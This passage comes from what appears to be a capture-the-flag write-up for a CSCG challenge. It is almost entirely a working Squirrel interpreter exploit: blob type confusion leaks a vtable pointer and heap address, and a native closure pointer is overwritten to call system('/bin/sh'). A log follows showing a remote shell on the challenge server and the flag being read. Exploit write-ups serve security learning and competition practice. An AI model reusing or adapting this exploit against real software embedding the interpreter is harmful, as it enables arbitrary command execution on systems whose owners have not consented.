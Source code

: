 ```
print("stdlib blob class: " + blob + "\n")
print("blob_1: " + blob_1 + "\n")

/*
 * This is the core of the exploit. The offsets need to be adjusted outside
 * of the compiler.
 *
 * Modify:
 *   xx xx xx xx 22 03 00 00
 *
 * In our case the offsets need to be:
 *   - 49 08 00 00 (blob_1 instance + offset to _userpointer) -> leaking lib
 *   - 50 08 00 00 (blob_1 data)
 */
blob_2 <- blob(1024)
a <- [blob_2, blob_2]
vptr <- ("" + a[0]).slice(12, -1).tointeger(16) + VPTR_BLOB_OFFSET
heap <- a[1]

print("Leaked ptr: " + a[0] + "\n")
print("Heap blob: " + heap + "\n")

create_blob(blob_1, heap_base, 0x42000, escape_addr - heap_base, vptr)

// EXPLOIT
heap.seek(104, 'c') // Seek to _function within SQNativeClosure
lower <- heap.readn('i')
heap.seek(-4, 'c')
heap.writen(lower - ESCAPE_OFFSET + SYSTEM_OFFSET, 'i')

escape("/bin/sh")
```

Running the above exploit gets us the flag `CSCG{t3chnic4lly_an_0d4y_but_...}`.

```
[+] Opening connection to hax1.allesctf.net on port 9888: Done
[*] Switching to interactive mode

[+] Code received. Executing...
stdlib _string_escape: (function : 0x0x55c3641f24f0)
stdlib blob class: (class : 0x0x55c3641ee230)
blob_1: (instance : 0x0x55c3641ef600)
Leaked ptr: ((null) : 0x0x7fab530aa820)
Heap blob: (instance : 0x0x55c3641ef6c0)
$ ls
flag
lib
sq
ynetd
$ cat flag
CSCG{t3chnic4lly_an_0d4y_but_...}
$ 
```
